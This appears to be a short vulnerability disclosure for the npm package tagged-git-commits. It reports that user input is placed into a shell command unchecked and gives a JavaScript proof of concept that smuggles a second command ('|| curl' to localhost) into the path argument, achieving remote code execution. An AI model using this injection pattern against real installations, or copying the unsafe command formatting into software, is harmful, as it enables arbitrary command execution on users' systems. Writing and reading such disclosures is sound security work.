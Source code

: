# Description

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-tagged-git-commits/blob/master/index.js#L29

# PoC

```js
// poc.js
const taggedCommits = require('tagged-git-commits');

taggedCommits({
	path: './git || curl "http://localhost/RCE"',
});
```

# Impact
`RCE` on `tagged-git-commits` via `insecure command formatting`
